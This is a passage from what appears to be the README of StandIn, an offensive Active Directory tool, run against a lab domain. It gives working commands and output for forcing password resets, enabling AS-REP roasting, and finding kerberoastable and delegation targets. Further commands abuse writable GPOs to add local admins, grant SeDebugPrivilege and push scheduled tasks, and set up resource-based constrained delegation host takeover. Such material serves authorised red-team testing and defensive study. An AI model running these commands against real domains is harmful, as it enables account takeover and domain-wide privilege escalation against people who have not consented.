[+] Identity --> MAIN\s4uUser
    |_ Type       : Allow
    |_ Permission : ExtendedRight
    |_ Object     : User-Force-Change-Password

C:\> StandIn.exe --object "samaccountname=user005" --newpass "Arkh4mW1tch!"

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=User 005
    Path     : LDAP://CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : MAIN\Domain Admins
    |_ Group : MAIN\Domain Admins

[+] Setting account password
    |_ Success, password set for object
```

### Add/Remove ASREP from object flags

#### Use Case

> *If the operator has write access to a user account, they can modify the user’s `userAccountControl` flags to include `DONT_REQUIRE_PREAUTH`. Doing so allows the operator to request an AS-REP hash for the user which can be cracked offline. This process is very similar to kerberoasting. This action is not destructive, but it relies on the fact that the user has a password which can be cracked in a reasonable timeframe.*

#### Syntax

Add and remove `DONT_REQUIRE_PREAUTH` from the resolved object's `userAccountControl` flags.

```
C:\> StandIn.exe --object "samaccountname=user005" --asrep

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=User 005
    Path     : LDAP://CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local

[*] SamAccountName           : user005
    DistinguishedName        : CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    userAccountControl       : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD

[+] Updating userAccountControl..
    |_ Success

C:\> StandIn.exe --asrep

[?] Using DC : m-w16-dc01.main.redhook.local

[?] Found 1 object(s) that do not require Kerberos preauthentication..

[*] SamAccountName           : user005
    DistinguishedName        : CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    userAccountControl       : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD, DONT_REQUIRE_PREAUTH

C:\> StandIn.exe --object "samaccountname=user005" --asrep --remove

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=User 005
    Path     : LDAP://CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local

[*] SamAccountName           : user005
    DistinguishedName        : CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    userAccountControl       : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD, DONT_REQUIRE_PREAUTH

[+] Updating userAccountControl..
    |_ Success

C:\> StandIn.exe --asrep

[?] Using DC : m-w16-dc01.main.redhook.local

[?] Found 0 object(s) that do not require Kerberos preauthentication..
```

## SID

#### Use Case

> *Sometimes you have either a `SID` or `samAccountName` and you need to get the other. This is a simple helper function to do that for you.*

#### Syntax

Convert `SID` or `samAccountName` to the user `SID` and `NTAccount`.

```
C:\> StandIn.exe --sid user001

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=user 001
    Path     : LDAP://CN=user 001,CN=Users,DC=redhook,DC=local

[+] User     : REDHOOK.LOCAL\user001
    SID      : S-1-5-21-315358687-3711474269-2098994107-1105

C:\> StandIn.exe --sid S-1-5-21-315358687-3711474269-2098994107-1105

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=user 001
    Path     : LDAP://CN=user 001,CN=Users,DC=redhook,DC=local

[+] User     : REDHOOK.LOCAL\user001
    SID      : S-1-5-21-315358687-3711474269-2098994107-1105
```

## ASREP

#### Use Case

> *This function enumerates all accounts in AD which are currently enabled and have `DONT_REQUIRE_PREAUTH` as part of their `userAccountControl` flags. These accounts can be AS-REP roasted, this process is very similar to kerberoasting.*

#### Syntax

Return all accounts that are ASREP roastable.

```
C:\> StandIn.exe --asrep

[?] Using DC : m-w16-dc01.main.redhook.local

[?] Found 1 object(s) that do not require Kerberos preauthentication..

[*] SamAccountName           : user005
    DistinguishedName        : CN=User 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    userAccountControl       : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD, DONT_REQUIRE_PREAUTH
```

## PASSWD_NOTREQD

#### Use Case

> *This function enumerates all accounts in AD which are currently enabled and have `PASSWD_NOTREQD` as part of their `userAccountControl` flags. These accounts can have blank passwords despite GPO enforcement but they can also have a password configured.*

#### Syntax

Return all accounts that have `PASSWD_NOTREQD` set.

```
C:\> StandIn.exe --passnotreq

[?] Using DC : m-w16-dc01.main.redhook.local

[?] Found 2 object(s) that do not require a password..

[*] SamAccountName           : passnotreq
    DistinguishedName        : CN=passnotreq,CN=Users,DC=redhook,DC=local
    PwdLastSet               : 6/6/2021 10:47:27 PM UTC
    lastlogon                : 0x0
    userAccountControl       : PASSWD_NOTREQD, NORMAL_ACCOUNT

[*] SamAccountName           : REDHOOKSLSRV$
    DistinguishedName        : CN=RedHookSLSRV,CN=Computers,DC=redhook,DC=local
    PwdLastSet               : 6/6/2021 10:51:37 PM UTC
    lastlogon                : 0x0
    userAccountControl       : PASSWD_NOTREQD, WORKSTATION_TRUST_ACCOUNT
```

## SPN

These functions deal specifically with SPN's.

### SPN Collection

#### Use Case

> *This function enumerates all accounts in AD which are currently enabled and can be kerberoasted. Some basic account information is added for context: when was the password last set, when was the account last used and what encryption types are supported.*

#### Syntax

Return all accounts that are kerberoastable.

```
C:\> StandIn.exe --spn

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Found 1 kerberostable users..

[*] SamAccountName         : SimCritical
    DistinguishedName      : CN=SimCritical,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    ServicePrincipalName   : ldap/M-2012R2-03.main.redhook.local
    PwdLastSet             : 11/2/2020 7:06:17 PM UTC
    lastlogon              : 0x0
    Supported ETypes       : RC4_HMAC_DEFAULT
```

### Set SPN

#### Use Case

> *With the appropriate permissions, this function allows you to add and remove an `SPN` from a `samAccountName`.*

#### Syntax

Add and remove `SPN's` from a `samAccountName`.

```
C:\> StandIn.exe --setspn user001 --principal MSSQL/Alchimiae --add

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=user 001
    Path     : LDAP://CN=user 001,CN=Users,DC=redhook,DC=local

[*] SamAccountName         : user001
    DistinguishedName      : CN=user 001,CN=Users,DC=redhook,DC=local

[+] Adding servicePrincipalName : MSSQL/Alchimiae
    |_ Success

C:\> StandIn.exe --object samaccountname=user001 --filter serviceprincipalname

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=user 001
    Path     : LDAP://CN=user 001,CN=Users,DC=redhook,DC=local

[?] Iterating object properties
    |_ Applying property filter => serviceprincipalname

[+] serviceprincipalname
    |_ HTTP/Alchimiae
    |_ MSSQL/Alchimiae

C:\>StandIn.exe --setspn user001 --principal HTTP/Alchimiae --remove

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=user 001
    Path     : LDAP://CN=user 001,CN=Users,DC=redhook,DC=local

[*] SamAccountName         : user001
    DistinguishedName      : CN=user 001,CN=Users,DC=redhook,DC=local
    ServicePrincipalName   : HTTP/Alchimiae
                             MSSQL/Alchimiae

[+] Removing servicePrincipalName : HTTP/Alchimiae
    |_ Success

C:\> StandIn.exe --object samaccountname=user001 --filter serviceprincipalname

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=user 001
    Path     : LDAP://CN=user 001,CN=Users,DC=redhook,DC=local

[?] Iterating object properties
    |_ Applying property filter => serviceprincipalname

[+] serviceprincipalname
    |_ MSSQL/Alchimiae
```

## Unconstrained / constrained / resource-based constrained delegation

#### Use Case

> *This function enumerates all accounts that are permitted to perform [unconstrained](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation), [constrained](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation), or [resource-based constrained](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution) delegation. These assets can be used to expand access or achieve objectives.*

#### Syntax

Return all accounts that have either unconstrained or constrained delegation permissions, or have inbound resource-based constrained delegation privileges.

```
C:\> StandIn.exe --delegation

[?] Using DC : m-w16-dc01.main.redhook.local

[?] Found 3 object(s) with unconstrained delegation..

[*] SamAccountName           : M-2019-03$
    DistinguishedName        : CN=M-2019-03,OU=Servers,OU=OCCULT,DC=main,DC=redhook,DC=local
    userAccountControl       : WORKSTATION_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION

[*] SamAccountName           : M-W16-DC01$
    DistinguishedName        : CN=M-W16-DC01,OU=Domain Controllers,DC=main,DC=redhook,DC=local
    userAccountControl       : SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION

[*] SamAccountName           : M-W19-DC01$
    DistinguishedName        : CN=M-W19-DC01,OU=Domain Controllers,DC=main,DC=redhook,DC=local
    userAccountControl       : SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION

[?] Found 2 object(s) with constrained delegation..

[*] SamAccountName           : M-2019-04$
    DistinguishedName        : CN=M-2019-04,OU=Servers,OU=OCCULT,DC=main,DC=redhook,DC=local
    msDS-AllowedToDelegateTo : HOST/m-w16-dc01.main.redhook.local/main.redhook.local
                               HOST/m-w16-dc01.main.redhook.local
                               HOST/M-W16-DC01
                               HOST/m-w16-dc01.main.redhook.local/MAIN
                               HOST/M-W16-DC01/MAIN
    Protocol Transition      : False
    userAccountControl       : WORKSTATION_TRUST_ACCOUNT

[*] SamAccountName           : M-2019-05$
    DistinguishedName        : CN=M-2019-05,OU=Servers,OU=OCCULT,DC=main,DC=redhook,DC=local
    msDS-AllowedToDelegateTo : cifs/m-2012r2-03.main.redhook.local
                               cifs/M-2012R2-03
    Protocol Transition      : True
    userAccountControl       : WORKSTATION_TRUST_ACCOUNT, TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION

[?] Found 1 object(s) with resource-based constrained delegation..

[*] SamAccountName           : M-10-1909-01$
    DistinguishedName        : CN=M-10-1909-01,OU=Workstations,OU=OCCULT,DC=main,DC=redhook,DC=local
    Inbound Delegation       : Server Admins [GROUP]
    userAccountControl       : WORKSTATION_TRUST_ACCOUNT
```

## DC's

#### Use Case

> *This function provides situational awareness by finding all domain controllers and listing some of their properties including their role assignments.*

#### Syntax

Get all domain controllers.

```
C:\> StandIn.exe --dc

[?] Using DC    : m-w16-dc01.main.redhook.local
    |_ Domain   : main.redhook.local

[*] Host                  : m-w16-dc01.main.redhook.local
    Domain                : main.redhook.local
    Forest                : main.redhook.local
    SiteName              : Default-First-Site-Name
    IP                    : 10.42.54.5
    OSVersion             : Windows Server 2016 Datacenter
    Local System Time UTC : Tuesday, 03 November 2020 03:29:17
    Role                  : SchemaRole
                            NamingRole
                            PdcRole
                            RidRole
                            InfrastructureRole

[*] Host                  : m-w19-dc01.main.redhook.local
    Domain                : main.redhook.local
    Forest                : main.redhook.local
    SiteName              : Default-First-Site-Name
    IP                    : 10.42.54.13
    OSVersion             : Windows Server 2019 Datacenter
    Local System Time UTC : Tuesday, 03 November 2020 03:29:17
```

## Trust

#### Use Case

> *This function provides situational awareness by finding all domain trusts.*

#### Syntax

Get all trust relationships for the current domain.

```
C:\> StandIn.exe --trust

[?] Using DC    : m-w16-dc01.main.redhook.local
    |_ Domain   : main.redhook.local

[>] Source         : main.redhook.local
    Target         : redhook.local
    TrustDirection : Bidirectional
    TrustType      : ParentChild
```

## GPO Operations

These functions deal specifically with GPO manipulation.

### List GPO's

#### Use Case

> *This function can enumerate all of the domain `Group Policy` objects. Optionally you can wildcard `--filter` and `--limit` the amount of entries returned. You can also query the ACL's for the GPO objects with `--acl`.*

#### Syntax

Enumerate GPO objects and review GPO ACL's.

```
C:\> StandIn.exe --gpo

[?] Using DC : m-w16-dc01.main.redhook.local
[+] GPO result count         : 3
    |_ Result limit          : 50

[?] Object   : CN={6AC1786C-016F-11D2-945F-00C04fB984F9}
    Path     : LDAP://CN={6AC1786C-016F-11D2-945F-00C04fB984F9},CN=Policies,CN=System,DC=redhook,DC=local
    DisplayName              : Default Domain Controllers Policy
    CN                       : {6AC1786C-016F-11D2-945F-00C04fB984F9}
    GPCFilesysPath           : \\redhook.local\sysvol\redhook.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}
    GPCMachineExtensionnames : [{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}]
    WhenCreated              : 6/3/2021 10:30:25 AM
    WhenChanged              : 6/3/2021 10:30:25 AM

[?] Object   : CN={31B2F340-016D-11D2-945F-00C04FB984F9}
    Path     : LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=redhook,DC=local
    DisplayName              : Default Domain Policy
    CN                       : {31B2F340-016D-11D2-945F-00C04FB984F9}
    GPCFilesysPath           : \\redhook.local\sysvol\redhook.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}
    GPCMachineExtensionnames : [{35378EAC-683F-11D2-A89A-00C04FBBCFA2}{53D6AB1B-2488-11D1-A28C-00C04FB94F17}][{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}][{B1BE8D72-6EAC-11D2-A4EA-00C04F79F83A}{53D6AB1B-2488-11D1-A28C-00C04FB94F17}]
    WhenCreated              : 6/3/2021 10:30:25 AM
    WhenChanged              : 6/5/2021 11:59:55 PM

[?] Object   : CN={028A7368-C524-46AA-B27A-CE8BDAC4EA66}
    Path     : LDAP://CN={028A7368-C524-46AA-B27A-CE8BDAC4EA66},CN=Policies,CN=System,DC=redhook,DC=local
    DisplayName              : Shards
    CN                       : {028A7368-C524-46AA-B27A-CE8BDAC4EA66}
    GPCFilesysPath           : \\redhook.local\SysVol\redhook.local\Policies\{028A7368-C524-46AA-B27A-CE8BDAC4EA66}
    GPCMachineExtensionnames : [{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}]
    WhenCreated              : 6/4/2021 2:11:43 PM
    WhenChanged              : 6/4/2021 11:33:33 PM

C:\> StandIn.exe --gpo --filter Shards --acl

[?] Using DC : m-w16-dc01.main.redhook.local
[+] GPO result count         : 1
    |_ Result limit          : 50
    |_ Applying search filter

[?] Object   : CN={028A7368-C524-46AA-B27A-CE8BDAC4EA66}
    Path     : LDAP://CN={028A7368-C524-46AA-B27A-CE8BDAC4EA66},CN=Policies,CN=System,DC=redhook,DC=local
    GPCFilesysPath : \\redhook.local\SysVol\redhook.local\Policies\{028A7368-C524-46AA-B27A-CE8BDAC4EA66}
    Path           : OK

[+] Account       : CREATOR OWNER
    Type          : Allow
    Rights        : FullControl
    Inherited ACE : False
    Propagation   : InheritOnly

[+] Account       : NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS
    Type          : Allow
    Rights        : ReadAndExecute, Synchronize
    Inherited ACE : False
    Propagation   : None

[+] Account       : NT AUTHORITY\Authenticated Users
    Type          : Allow
    Rights        : ReadAndExecute, Synchronize
    Inherited ACE : False
    Propagation   : None

[+] Account       : NT AUTHORITY\SYSTEM
    Type          : Allow
    Rights        : FullControl
    Inherited ACE : False
    Propagation   : None

[+] Account       : REDHOOK\Domain Admins
    Type          : Allow
    Rights        : FullControl
    Inherited ACE : False
    Propagation   : None

[+] Account       : REDHOOK\Enterprise Admins
    Type          : Allow
    Rights        : FullControl
    Inherited ACE : False
    Propagation   : None

[+] Account       : REDHOOK\user001
    Type          : Allow
    Rights        : FullControl
    Inherited ACE : False
    Propagation   : None
```

### GPO add local admin

> *With the appropriate permissions it is possible to add a domain user to the `BUILTIN\Administrators` on a vulnerable GPO.*

#### Syntax

Add user to to the `BUILTIN\Administrators` group for all linked computer objects tied to the `Shards` GPO. This function can both create the required files and also update existing files. **Use with caution.**

```
C:\> StandIn.exe --gpo --filter Shards --localadmin user002

[?] Using DC : m-w16-dc01.main.redhook.local

[+] GPO Object Found
    Object   : CN={58890948-8DE3-4A39-8C40-F68004186693}
    Path     : LDAP://CN={58890948-8DE3-4A39-8C40-F68004186693},CN=Policies,CN=System,DC=redhook,DC=local
    GP Path  : \\redhook.local\SysVol\redhook.local\Policies\{58890948-8DE3-4A39-8C40-F68004186693}

[+] User Object Found
    Object   : CN=user 002
    Path     : LDAP://CN=user 002,CN=Users,DC=redhook,DC=local
    SID      : S-1-5-21-315358687-3711474269-2098994107-1106

[?] GPO Version
    User     : 0
    Computer : 0

[+] Writing GPO changes
    |_ Creating GptTmpl.inf
    |_ Updating gpt.inf
    |_ Updating AD object
       |_ Incrementing version number
       |_ Creating gPCMachineExtensionNames
```

### GPO add user privilege

> *With the appropriate permissions it is possible to enable a token privilege for a domain user on a vulnerable GPO.*

#### Syntax

Add `token` privilege to a user account for all linked computer objects tied to the `Shards` GPO. This function can both create the required files and also update existing files. **Use with caution.**

```
C:\Users\user001\Desktop>StandIn.exe --gpo --filter Shards --setuserrights user002 --grant "SeDebugPrivilege,SeLoadDriverPrivilege"

[+] Validating account rights
    |_ Rights count: 2
       |_ SeDebugPrivilege
       |_ SeLoadDriverPrivilege

[?] Using DC : m-w16-dc01.main.redhook.local

[+] GPO Object Found
    Object   : CN={58890948-8DE3-4A39-8C40-F68004186693}
    Path     : LDAP://CN={58890948-8DE3-4A39-8C40-F68004186693},CN=Policies,CN=System,DC=redhook,DC=local
    GP Path  : \\redhook.local\SysVol\redhook.local\Policies\{58890948-8DE3-4A39-8C40-F68004186693}

[+] User Object Found
    Object   : CN=user 002
    Path     : LDAP://CN=user 002,CN=Users,DC=redhook,DC=local
    SID      : S-1-5-21-315358687-3711474269-2098994107-1106

[?] GPO Version
    User     : 0
    Computer : 1

[+] Writing GPO changes
    |_ Updating existing GptTmpl.inf
       |_ Adding GPO Privileges
       |_ Updating revision
    |_ Updating gpt.inf
    |_ Updating AD object
       |_ Incrementing version number
       |_ Updating gPCMachineExtensionNames
```

### GPO add immediate task

> *With the appropriate permissions it is possible to add an immediate task to either the `User` or `Computer` component of the GPO. Optionally, these tasks can be narrowed to apply to a single user or single computer.*

#### Syntax

Add a generic `Computer` task which will execute for all linked computer objects tied to the `Shards` GPO. Also add a targeted `User` task that will only execute for a specific domain user. This function can both create the required files and also update existing files. **Use with caution.**

```
C:\Users\user001\Desktop>StandIn.exe --gpo --filter Shards --tasktype computer --taskname Liber --author "REDHOOK\Administrator" --command "C:\I\do\the\thing.exe" --args "with args"

[?] Using DC : m-w16-dc01.main.redhook.local

[+] GPO Object Found
    Object   : CN={58890948-8DE3-4A39-8C40-F68004186693}
    Path     : LDAP://CN={58890948-8DE3-4A39-8C40-F68004186693},CN=Policies,CN=System,DC=redhook,DC=local
    GP Path  : \\redhook.local\SysVol\redhook.local\Policies\{58890948-8DE3-4A39-8C40-F68004186693}

[?] GPO Version
    User     : 0
    Computer : 2

[+] Writing GPO changes
    |_ Creating ScheduledTasks.xml
    |_ Updating gpt.inf
    |_ Updating AD object
       |_ Incrementing version number
       |_ Updating gPCMachineExtensionNames

C:\> StandIn.exe --gpo --filter Shards --tasktype user --taskname Ivonis --author "REDHOOK\Administrator" --command "C:\I\do\the\thing.exe" --args "with args" --target "REDHOOK\user001" --targetsid S-1-5-21-315358687-3711474269-2098994107-1105

[?] Using DC : m-w16-dc01.main.redhook.local

[+] GPO Object Found
    Object   : CN={58890948-8DE3-4A39-8C40-F68004186693}
    Path     : LDAP://CN={58890948-8DE3-4A39-8C40-F68004186693},CN=Policies,CN=System,DC=redhook,DC=local
    GP Path  : \\redhook.local\SysVol\redhook.local\Policies\{58890948-8DE3-4A39-8C40-F68004186693}

[?] GPO Version
    User     : 0
    Computer : 3

[+] Writing GPO changes
    |_ Creating ScheduledTasks.xml
    |_ Updating gpt.inf
    |_ Updating AD object
       |_ Incrementing version number
       |_ Creating gPCUserExtensionNames
```

### GPO increase user / computer version

> *While the previous GPO functions offer powerful exploitation primitives it may be useful to have the ability to manually edit `GPO's` on `SysVol`. Once any GPO has been manually modified then the AD object version should be sync'd to correctly propagate the changes. This function does that.*

#### Syntax

Increase the `User` or `Computer` GPO version on the associated AD object.

```
C:\Users\user001\Desktop>StandIn.exe --gpo --filter Shards --increase --tasktype user

[?] Using DC : m-w16-dc01.main.redhook.local

[+] GPO Object Found
    Object   : CN={58890948-8DE3-4A39-8C40-F68004186693}
    Path     : LDAP://CN={58890948-8DE3-4A39-8C40-F68004186693},CN=Policies,CN=System,DC=redhook,DC=local
    GP Path  : \\redhook.local\SysVol\redhook.local\Policies\{58890948-8DE3-4A39-8C40-F68004186693}

[?] Current GPO Versioning
    User     : 1
    Computer : 3

--> Incrementing user version

C:\Users\user001\Desktop>StandIn.exe --gpo --filter Shards --increase --tasktype computer

[?] Using DC : m-w16-dc01.main.redhook.local

[+] GPO Object Found
    Object   : CN={58890948-8DE3-4A39-8C40-F68004186693}
    Path     : LDAP://CN={58890948-8DE3-4A39-8C40-F68004186693},CN=Policies,CN=System,DC=redhook,DC=local
    GP Path  : \\redhook.local\SysVol\redhook.local\Policies\{58890948-8DE3-4A39-8C40-F68004186693}

[?] Current GPO Versioning
    User     : 2
    Computer : 3

--> Incrementing computer version
```

## Policy

#### Use Case

> *This function attempts to display some basic policy information for situational awareness.*

#### Syntax

Read the `Default Domain Policy` and extract some user/session policy information. If the default policy has been renamed you can specify it with `--filter`, alternatively you can perform an `--object` query for the domain root (e.g `distinguishedname=DC=redhook,DC=local`).

```
C:\> StandIn.exe --policy

[?] Using DC : m-w16-dc01.main.redhook.local

[?] Object      : CN={31B2F340-016D-11D2-945F-00C04FB984F9}
    Path        : LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=redhook,DC=local
    Policy Root : \\redhook.local\sysvol\redhook.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}

[+] Domain Policy
    |_ MinimumPasswordAge : 1
    |_ MaximumPasswordAge : 42
    |_ MinimumPasswordLength : 7
    |_ PasswordComplexity : 1
    |_ PasswordHistorySize : 24
    |_ LockoutBadCount : 5
    |_ ResetLockoutCount : 30
    |_ LockoutDuration : 30
    |_ LSAAnonymousNameLookup : 0
    |_ Kerberos max User ticket lifetime : 10
    |_ Kerberos max Service ticket lifetime : 600
    |_ Kerberos max User ticket renewal lifetime : 7
```

## DNS

#### Use Case

> *This function fetches domain DNS information from AD and supports wildcard filtering.*

#### Syntax

Read DNS entries under specific `CN=MicrosoftDNS` objects and parse the binary DNS data. The `search base` can be adjusted by specifying `--legacy` or `--forest`. You can also limit the results which are returned with `--limit`.

```
C:\Users\user001\Desktop>StandIn.exe --dns --filter RedHook-CLI

[+] Search Base: LDAP://DC=redhook.local,CN=MicrosoftDNS,DC=DomainDnsZones,DC=redhook,DC=local

[+] Object : RedHook-CLI-01
    |_ DNS_RPC_RECORD_A : 10.0.0.100

[+] Object : RedHook-CLI-02
    |_ DNS_RPC_RECORD_A : 10.0.0.101
```

## Groups Operations

These functions deal specifically with domain groups.

### List group membership

#### Use Case

> *This function provides situational awareness, listing all members of a domain group including their type (user or nested group). As input it can also take a `samAccountName` and it will return which groups the user is part of.*

#### Syntax

Enumerate group membership or user memberships and provide rudementary details for the member objects.

```
C:\> StandIn.exe --group "Server Admins"

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Type     : Group resolution
    Group    : Server Admins

[+] Members

[?] Path           : LDAP://CN=Workstation Admins,OU=Groups,OU=OCCULT,DC=main,DC=redhook,DC=local
    samAccountName : Workstation Admins
    Type           : SAM_GROUP_OBJECT
    SID            : S-1-5-21-1293271031-3053586410-2290657902-1108

[?] Path           : LDAP://CN=Server Admin 001,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    samAccountName : srvadmin001
    Type           : SAM_USER_OBJECT
    SID            : S-1-5-21-1293271031-3053586410-2290657902-1111

[?] Path           : LDAP://CN=Server Admin 002,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    samAccountName : srvadmin002
    Type           : SAM_USER_OBJECT
    SID            : S-1-5-21-1293271031-3053586410-2290657902-1184

[?] Path           : LDAP://CN=Server Admin 003,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    samAccountName : srvadmin003
    Type           : SAM_USER_OBJECT
    SID            : S-1-5-21-1293271031-3053586410-2290657902-1185

[?] Path           : LDAP://CN=Server Admin 004,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    samAccountName : srvadmin004
    Type           : SAM_USER_OBJECT
    SID            : S-1-5-21-1293271031-3053586410-2290657902-1186

[?] Path           : LDAP://CN=Server Admin 005,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    samAccountName : srvadmin005
    Type           : SAM_USER_OBJECT
    SID            : S-1-5-21-1293271031-3053586410-2290657902-1187

[?] Path           : LDAP://CN=SimCritical,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    samAccountName : SimCritical
    Type           : SAM_USER_OBJECT
    SID            : S-1-5-21-1293271031-3053586410-2290657902-1204

C:\> StandIn.exe --group user001

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Type     : User resolution
    User     : user 001

[+] Memberships

[?] Path           : LDAP://<SID=010500000000000515000000dffdcb125d9a38ddbb1b1c7d01020000>
    samAccountName : Domain Users
    Type           : SAM_GROUP_OBJECT
    SID            : S-1-5-21-315358687-3711474269-2098994107-513
```

### Add / remove user from group

#### Use Case

> *With appropriate access the operator can add or remove an NTAccount from a domain group.*

#### Syntax

Add an NTAccount identifier to a domain group. Normally this would be a user but it could also be a group. Finally, remove the NTAccount identifier from the domain group.

```
C:\> StandIn.exe --group lowprivbutmachineaccess

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Type     : Group resolution
    Group    : lowprivbutmachineaccess

[+] Members

[?] Path           : LDAP://CN=s4uUser,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    samAccountName : s4uUser
    Type           : User
    SID            : S-1-5-21-1293271031-3053586410-2290657902-1197

C:\> StandIn.exe --group lowprivbutmachineaccess --ntaccount "MAIN\user001" --add

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Group    : lowPrivButMachineAccess
    GUID     : 37e3d957-af52-4cc6-8808-56330f8ec882

[+] Adding user to group
    |_ Success

C:\> StandIn.exe --group lowprivbutmachineaccess

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Type     : Group resolution
    Group    : lowprivbutmachineaccess

[+] Members

[?] Path           : LDAP://CN=User 001,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    samAccountName : user001
    Type           : User
    SID            : S-1-5-21-1293271031-3053586410-2290657902-1106

[?] Path           : LDAP://CN=s4uUser,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    samAccountName : s4uUser
    Type           : User
    SID            : S-1-5-21-1293271031-3053586410-2290657902-1197

C:\> StandIn.exe --group testgroup --ntaccount "MAIN\user001" --remove

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Group    : lowPrivButMachineAccess
    GUID     : 37e3d957-af52-4cc6-8808-56330f8ec882

[+] Removing user from group
    |_ Success
```

## Machine Object Operations

These functions specifically are for machine operations and expect the machine name as an input.

### Create machine object

#### Use Case

> *The operator may wish to create a machine object in order to perform a [resource based constrained delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution) attack. By default any domain user has the ability to create up to 10 machines on the local domain.*

#### Syntax

Create a new machine object with a random password, user `ms-DS-MachineAccountQuota` applies to this operation.

```
C:\> StandIn.exe --computer M-1337-b33f --make

[?] Using DC    : m-w16-dc01.main.redhook.local
    |_ Domain   : main.redhook.local
    |_ DN       : CN=M-1337-b33f,CN=Computers,DC=main,DC=redhook,DC=local
    |_ Password : MlCGkaacS5SRUOt

[+] Machine account added to AD..
```

The `ms-DS-MachineAccountQuota` property exists in the domain root object. If you need to verify the quota you can perform an object search as shown below.

```
C:\> StandIn.exe --object ms-DS-MachineAccountQuota=*
```

### Disable machine object

#### Use Case

> *Standard users do not have the ability to delete a machine object, however a user that create a machine can thereafter disable the machine object.*

#### Syntax

Disable a machine that was previously created. This action should be performed in the context of the same user that created the machine. Note that non-elevated users can't delete machine objects only disable them.

```
C:\> StandIn.exe --computer M-1337-b33f --disable

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=M-1337-b33f
    Path     : LDAP://CN=M-1337-b33f,CN=Computers,DC=main,DC=redhook,DC=local

[+] Machine account currently enabled
    |_ Account disabled..
```

### Delete machine object

#### Use Case

> *With elevated AD privileges the operator can delete a machine object, such as once create earlier in the attack chain.*

#### Syntax

Use an elevated context to delete a machine object.

```
C:\> StandIn.exe --computer M-1337-b33f --delete

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=M-1337-b33f
    Path     : LDAP://CN=M-1337-b33f,CN=Computers,DC=main,DC=redhook,DC=local

[+] Machine account deleted from AD
```

### Add msDS-AllowedToActOnBehalfOfOtherIdentity

#### Use Case

> *With write access to a machine object this function allows the operator to add an `msDS-AllowedToActOnBehalfOfOtherIdentity` property to the machine which is required to perform a [resource based constrained delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution) attack.*

#### Syntax

Add an `msDS-AllowedToActOnBehalfOfOtherIdentity` propert to the machine along with a SID to facilitate host takeover using resource based constrained delegation.

```
C:\> StandIn.exe --computer m-10-1909-03 --sid S-1-5-21-1293271031-3053586410-2290657902-1205

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=M-10-1909-03
    Path     : LDAP://CN=M-10-1909-03,OU=Workstations,OU=OCCULT,DC=main,DC=redhook,DC=local
[+] SID added to msDS-AllowedToActOnBehalfOfOtherIdentity

C:\> StandIn.exe --object samaccountname=m-10-1909-03$

[?] Using DC : m-w16-dc01.main.redhook.local
